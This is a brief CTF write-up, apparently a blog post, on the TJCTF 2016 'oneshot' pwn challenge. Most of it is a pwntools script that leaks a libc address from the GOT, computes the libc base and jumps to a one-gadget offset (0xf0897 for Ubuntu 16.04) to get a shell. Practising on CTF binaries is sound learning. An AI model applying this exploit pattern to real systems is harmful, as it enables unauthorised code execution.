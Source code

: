 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/09/16/tjctf-2016-oneshot/
date: "2016-09-16T17:13:16+09:00"
tags: [ "ctf", "writeup", "pwn", "tjctf", "one-gadget-rce" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/tjctf-2016/pwn/oneshot-170" ]
---
```


# tjctf 2016 oneshot

Do one-gadget RCE.
In Ubuntu 16.04 libc, `0xf0897` is the address.

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

elf = ELF('./oneshot')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # Ubuntu 16.04
p = process('./oneshot')
p.sendline(str(elf.got['__libc_start_main']))
p.recvuntil('Value: ')
libc_base = int(p.recvline(), 16) - libc.symbols['__libc_start_main']
p.sendline(str(libc_base + 0xf0897))

time.sleep(1)
p.sendline('id')
p.interactive()
```
